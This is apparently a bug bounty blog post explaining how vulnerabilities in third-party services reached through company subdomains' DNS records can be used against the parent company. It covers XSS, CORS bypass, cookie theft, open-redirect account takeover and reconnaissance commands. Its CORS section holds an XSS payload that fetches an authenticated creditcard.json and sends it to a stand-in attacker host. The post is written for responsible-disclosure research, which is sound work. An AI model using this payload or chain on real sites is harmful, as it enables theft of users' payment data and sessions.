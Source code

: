 ```yaml
---
layout: single
title: Exploitation through vulnerability inheritance - Attacking companies and scoring bounties through 3rd party integrations
date: 2021-02-15
classes: wide
header:
  teaser: /images/3rdparty_teaser.png
tags:

  -BugBounty
--- 
```


**Exploitation through vulnerability inheritance - Attacking companies and scoring bounties through 3rd party integrations**

![preview](/images/3rdparty_teaser.png)

## Agenda

During my last couple of months engaging with bug bounties on companies who hold responsible disclosure policy, I have encountered what might be called as some sort of routine, which helped me score bounties on companies regardless of their size.

This is due to what I will refer on this blog post as "Vulnerability Inheritance"

In this blog I'll cover the following:

![preview](/images/agenda.png)


### General

In today’s world, software companies are growing rapidly and so the need for new designs and features to implement ontop of the company current niche, which draws large portion of the software developers attention.

Companies will opt to “adopt” 3rd party services to achieve certain functionality goals, which would give them a "cheap" and time rewarding solution instead of investing manpower on maintaining and devloping certain "sideways" features which are already being maintaned and constantly developed by big companies.

While doing so is indeed rewarding and has many benefits, it do come out with a security price which needs to be considered and handeld correctly by the companies.

The 2 main methods in which we can integrate 3rd party services within our company domains are the following:

![2ways](/images/2ways.png)

The main area which I will cover are within the CNAME and A records integrations, for <script> and <iframe> integrations, there are several vulnerabilities which can arise and I'd suggest watching our Chief Architect at enso.security talk about postMessage exploitations which we had given earlier this year.

**Understanding CNAMES and A records**

CNAME records can be used to alias one name to another. CNAME stands for Canonical Name.
A common example is when you have both example.com and www.example.com pointing to the same application and hosted by the same server. 
To avoid maintaining two different records, it’s common to create:
* An A record for example.com pointing to the server IP address
* A CNAME record for www.example.com pointing to example.com

As a result, example.com points to the server IP address, and www.example.com points to the same address via example.com. If the IP address changes, you only need to update it in one place: just edit the A record for example.com, and www.example.com automatically inherits the changes.

**Understanding CNAMES and A records DNS flow**

![dns_cname](/images/cname_dns.png)

By observing the DNS flow above, you could already start to glimpse the point why security vulnerabilities are being arised from integrations as such.

There are 2 ways to implement 3rd party integrations through DNS records:

* Assigning a CNAME record from a subdomain to the 3rd party service, by doing so we "alias" the contents from the 3rd party website to serve on our subdomain.

* Assigning A record to an IP address which will run the vendor's service with slight modificatitions.

![flow_nagli](/images/flow.png)

After understanding the basics, we can dive deeper into the threat and attack models section

### Threat and attack models

![threat](/images/threat.png)

As we approach the threats and attack models phase, we need to understand that the main attack vectors we will look for are **Client Side Vulnerabilities**, this should make sense by now as we are attacking the company subdomain which is being served as an alias to third party service, in other words:

Achieveing RCE on the target would actually mean that we have remote code execution on the vendor's server
Achieving SSRF on the target would actually mean that we have Server Side Request Forgery from the vendor's IP
Achieveing XXE on the target would actually mean that we have XML External Entity attack on the vendor's server

Those attacks are severe and can affect the subdomain we are targeting, but as for the impact we are going for to the actual company we are targeting, it will still remain within the same attack models that we can achieve from Client Side Vulnerabilities on the specific subdomain.

I believe that Subdomain takeovers and Dangling dns records are wide known and understood with the community, there are bunch of great tutorials and explanations on these attacks and It's not the main discusstion area of the blog, yet it has to be mentioned and I'll share on the reconnaissance my methodology targeting and automatic the process of finding those.

![tko](/images/tko.png)

![dangling](/images/dangling.png)

Now, let's dive into the main part of the talk.

Client side vulnerabilities such as Cross Site Scripting and Open Redirects are often considered the most common bugs to be found by bug bounty hunters, as such many defence measures are being integrated and considered by companies todays such as implementing CSP (Content-Security-Policy), Deploying a WAF (Web Application Firewall), strict regex controls and sanitizing user input on all fields at all costs (Almost an impossible task).

Those solutions are good, although there are many WAF and CSP Bypasses which are being discovered from time to time, it will mostly do good job with protecting your companies domain from the straight forward attacks.

**But**,
When we integrate 3rd party service to our domain by pointing to it with a CNAME or A record, we are serving an alias of the vendors website, and the defense measures which we have taken throught the entire development process are no longer effective.

Upon integration we are being 100% dependent on the vendors security policy regarding vulnerabillities.

And this is where the **"Vulnerability Inheritance"** part comes to play, whenever we decide to integrate a new service, we will inherit it's entire security flaws to be served under our domain.

Let's take a quick look on the matter:

Assume we have found Stored XSS on a third party vendor, let's say on .welearn.com, and the company which we are targeting - target.com has a subdomain named study.target.com which points to target.welearn.com, target.com is well protected with strict CSP in place and up to date WAF.

Because study.target.com is a CNAME, it won't have any of these protections inplace, which could have blocked the XSS we have found on the 3rd party vendor.

Now, we will navigate to the subdomain and execute the XSS, as we could have anticipated it's affecting website as well as the vendors website, and the document.domain of the execution is being changed accordingly. 

![xss](/images/xss.png)

That's nice, so we found a vulnerability on a subdomain of our target.com company, and we have done so without tackling any of the defense in depth security measures being implemented on their domains. it's already a valid vulnerability if the company has wildcard domain inscope for assessment.

As I have encountered from time to time with my assessments, often the targeted companies won't realize the impact for such vulnerabilities, and they can issue a generic response as:

"Nice find, although the subdomain you have targeted is affecting 3rd party service which isn't under our control, and there is no impact by doing so."

The vulnerability itself indeed cannot be resolved by the company which we target, and they best mitigation considering the severity is to take down the website for maintanence until the vendor will fix it's flows.

Regarding the impact, it's subjective to the companies design and implementations, and it could be used as a chain to more severer actions.

**Bypassing CORS protections**

To those who are unfamilliar with the **Cross Origin Resource Sharing** mechanism:

Cross-Origin Resource Sharing (CORS) is an HTTP-header based mechanism that allows a server to indicate any other origins (domain, scheme, or port) than its own from which a browser should permit loading of resources.

Upon examining the main functions of our target website, if we come across the following set of headers and there is sensitive data being returned on the page, we defintly should stop and investigate what happens:

```javascript
Access-Control-Allow-Origin: https://galnagli.com
Access-Control-Allow-Credentials: true
```

When responding to a credentialed request, the server must specify an origin in the value of the Access-Control-Allow-Origin header, instead of specifying the `*` wildcard.

We want to make a request with the Access-Control-Allow-Credentials: true header, as it would allow fetching data with the user credentials attached (as authenticated personal).

Targets who set their CORS policy could have it assigned as "Wildcard" whenever dealing with requests which doesn't require authentication.
And as defense mechanism they would allow specifing the origin on authenticated requests only to be scope for the targets subdomains, such as 

```javascript
*.galnagli.com
```

It means that if we want to initiate a request from a subdomain of our target, we will specify it's name on the Allow-Origin header, which will look like the following:

```javascript
Access-Control-Allow-Origin: https://study.galnagli.com
Access-Control-Allow-Credentials: true
```

Now, as we have discovered Cross Site Scripting vulnerability on that subdomain, and although it occurres because of the 3rd party vendor misconfigurations, the origin of execution is being tied to our subdomain, which is inscope of making credential requests to the main domain as per our target configuration.

We can use our XSS to fetch sensitive information which is being stored on the parent domain by issuing a script similar to:

```javascript
<script>
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://galnagli.com/creditcard.json',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
</script>
```

Storing this as the Cross Site Scripting payload will send to our attacker controlled server the creditcard.json authenticated response for each visitor who visits the affected subdomain and executes the script.


**Cookies exfiltration**

When companies are setting up cookies on their main websites, they tend to configure them with domain attribute, with makes them accessible and stored on the respective subdomains as well.

As per MDN:
```
Domain attribute
The Domain attribute specifies which hosts are allowed to receive the cookie. If unspecified, it defaults to the same host that set the cookie, excluding subdomains. If Domain is specified, then subdomains are always included. Therefore, specifying Domain is less restrictive than omitting it. However, it can be helpful when subdomains need to share information about a user.

For example, if Domain=mozilla.org is set, then cookies are available on subdomains like developer.mozilla.org.
```

It means that if we manage to find XSS vulnerability on our subdomain, we can exfiltrate the cookies which are being set on the parent domain, only if they are not protected by HTTPOnly flags.

We can use the cookies attached to issue requests from the victim perspective (such as CSRF attacks) regardless of the cookies being set to HTTPOnly.

![cookie](/images/cookie.png)

**Business Logic Errors**

Similar to the impact of subdomain takeover, instead of stealing the domain and to show a generic alert popup from that subdomain, we can use that subdomain to demonstrate legitimate service claiming to be on behalf of the original domain, while its actually being managed by the attacker.

Let's take to an example if we managed to takeover a shopify domain of the target domain, served on shop.target.com:

![business](/images/business.png)

**Open Redirect as a chain**

Assuming we have found open redirect on our vulnerable 3rd party vendor, which affects our subdomain shop.galnagli.com.
This could be used as a chain to more severe attacks, some companies would accept the open redirect as P4, but this should be considered last resort after trying to achieve greater affect and impact through different and more severe vulnerabilities such as Account Takeover or SSRF Bypasses.

**Account Takeover**

Let's take a look at the following example:

![redirectko](/images/redirect_tko.png)

While this issue looks straight forward like regular open redirect to account takeover, it's not that case so often.
Because we have another location to redirect through, we will often encounter a redirection chain which won't carry the authentication code throughout the entire process, we need to have certain redirection which fetches and issues the call through the DOM of certain page, and only redirects to the final domain from the original initiator

```javascript
https://galnagli.com - > https://shop.galnagli.com -> https://sadf.burpcollaborator.com - Most likely won't carry the auth code.
https://galnagli.com - > **middleman redirection processing page** -> https://sadf.burpcollaborator.com - Most likely will work.
```


**SSRF Bypass**

Similar to the previous vulnerable scenario, we can achieve SSRF by bypassing allowed whitelisted wildcard urls at certain scenarios.

![ssrf](/images/ssrf.png)

### Reconnaissance

The Reconnaissance part should be divded to 2 main parts:

![recon](/images/2recon.png)

Our first take is to find a potenial target to test for possible vulnerabilities.

I prefer to scan the our target first and look for 3rd parties services which are integrated already in their flow, although a researcher could opt to find web 0-days on 3rd party vendor services before looking for any target, I'm not sure it hold the ethical phase if the vendor won't operate any responsible disclosure policy (which is really bad for vendor's to not have one of those)

And you might find a vulnerability which won't affect any target who offers bug bounties or CVE to award your effort, so going through our target assets and expanding further should be the way to go.

We are mostly interested to find the CNAME records and potenial A records with titles who indicate the usage of 3rd party services.

There are many unix tools which could help us to determine the if certain host (https://www.example.com) has CNAME pointer to certain website, the most simple way to check for those would to run a dig scan

```javascript
dig target.com CNAME
```
which should return in response similar answer to:

```javascript
shop.galnagli.com.     300     IN      CNAME   galnagli.myshopify.com
```

Although, there are better ways and faster tools which would let us run over large portion of domains and return on the same iteration the title of the webpage, and it's CNAME.
using the opensource httpx tool by ProjectDiscovery we can use the following script to scan a list of subdomains and extract their CNAMES records and titles, given a list of subdomains with their respective status code.

```javascript
cat subdomains.txt | httpx -cname -title -status-code > rawdata.txt
```

```javascript
https://shop.galnagli.com [404] [This shopping website is unclaimed] [galnagli.myshop.com]
https://events.galnagli.com [200] [Welcome to eventstoday platform] [galnagli.eventstoday.com]
```

So we have determined that our subdomain has CNAME pointer to 3rd party vendor, assuming our target accepts wildcard reports and going over the entire blog until this point, we can explore the for vulnerabilities on the vendors website and apply those on the in-scope subdomain.

Even if events.galnagli.com didn't have a CNAME record to eventstoday, and was hosting it on a IP address with A record, the title of the webpage would exfiltrate the fact that it's a 3rd party service.

Apart from automation, we can never takeaway from manually inspecting websites. 
we could usually encounter via the sourcecode image locations or "signatures" on the page the fact that we are being served a 3rd party vendors code.

So, we found a target, and we managed to find vulnerabilities on it such as XSS or Open-Redirect, that's great and should count as a valid report.

However, the potenial is way bigger, now we have a "0 day" on web application service, and we should scrape the internet at scale to find other big vendors who uses the same service to host content on their domains.

![scrape](/images/scrape.png)


### Practical exploitations

### Takeaways


